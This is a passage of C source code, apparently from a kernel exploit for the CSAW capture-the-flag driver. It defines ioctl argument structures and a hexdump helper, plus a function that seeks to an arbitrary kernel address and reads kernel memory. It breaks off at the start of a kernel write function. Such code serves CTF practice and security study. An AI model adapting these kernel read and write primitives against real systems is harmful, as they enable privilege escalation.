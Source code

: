 ```
};

struct write_channel_args {
    int id;
    char *buf;
    size_t count;
};

struct seek_channel_args {
    int id;
    loff_t index;
    int whence;
};

struct close_channel_args {
    int id;
};

void error ( char *msg )
{
    perror(msg);
    exit(EXIT_FAILURE);
}

void hexdump ( char *addr, unsigned int length )
{
    unsigned int i, j;

    for ( i = 0; i < length / 16; i++ )
    {
        for ( j = 0; j < 16; j++ )
        {
            printf("%02hhx ", addr[i * 16 + j]);
        }
        printf("\n");
    }
}

int read_kernel_memory ( int fd, int id, unsigned long kaddr, void *buf, unsigned int size )
{
    int ret;
    struct seek_channel_args seek_channel;
    struct read_channel_args read_channel;

    memset(&seek_channel, 0, sizeof(seek_channel));
    seek_channel.id = id;
    seek_channel.index = kaddr - 0x10;
    seek_channel.whence = SEEK_SET;

    ioctl(fd, CSAW_SEEK_CHANNEL, &seek_channel);

    memset(&read_channel, 0, sizeof(read_channel));
    read_channel.id = id;
    read_channel.buf = buf;
    read_channel.count = size;

    ret = ioctl(fd, CSAW_READ_CHANNEL, &read_channel);

    return ret;
}

int write_kernel_null_byte ( int fd, int id, unsigned long kaddr )
{
```